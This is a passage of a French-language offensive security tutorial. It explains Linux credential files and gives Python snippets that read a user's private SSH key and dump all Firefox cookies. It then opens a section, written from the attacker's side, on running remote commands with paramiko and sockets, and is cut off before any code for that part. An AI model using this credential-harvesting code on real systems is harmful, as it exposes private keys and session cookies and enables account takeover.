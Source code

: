 #### **Notions à maîtriser :**
- **Fichier `/etc/passwd`** : Contient des informations sur les utilisateurs et leurs groupes.
- **Fichier `/etc/shadow`** : Contient les informations des mots de passe cryptés des utilisateurs (généralement accessible uniquement aux super-utilisateurs).
- **Clés SSH** : Les clés privées SSH sont essentielles pour les connexions distantes et permettent d’accéder à des systèmes de manière privilégiée.
- **Cookies et fichiers de session** : Peuvent contenir des informations sur les connexions actives et des sessions authentifiées.

#### **Exemples pratiques :**
- **Extraction des clés SSH (fichier `~/.ssh/id_rsa`):**
    ```python
    def get_ssh_keys():
        with open('/home/user/.ssh/id_rsa', 'r') as file:
            ssh_key = file.read()
        print("SSH Private Key: \n", ssh_key)
    get_ssh_keys()
    ```
    Ce script ouvre et lit la clé SSH privée de l'utilisateur.

- **Extraction des cookies depuis un navigateur :**
    ```python
    import os
    import sqlite3

    def get_browser_cookies():
        cookie_db_path = os.path.expanduser('~/.mozilla/firefox/your_profile/cookies.sqlite')
        conn = sqlite3.connect(cookie_db_path)
        cursor = conn.cursor()
        cursor.execute('SELECT * FROM moz_cookies')
        cookies = cursor.fetchall()
        for cookie in cookies:
            print(cookie)  # Affiche chaque cookie
        conn.close()

    get_browser_cookies()
    ```
    Ce script récupère les cookies du navigateur Firefox stockés dans une base de données SQLite.

---

### **3. Exécution de commandes distantes avec `paramiko` et `sockets`**

Une fois qu'un attaquant a compromis un système, il peut vouloir exécuter des commandes à distance sur le système cible pour exfiltrer des informations ou obtenir un contrôle plus poussé.

#### **Notions à maîtriser :**
- **Utilisation de `paramiko` pour SSH** : Permet d'exécuter des commandes à distance sur un serveur via SSH.
- **Utilisation de `sockets` pour l'exécution de commandes à distance** : Permet d'établir une communication via un socket réseau pour envoyer des commandes et récupérer des informations.
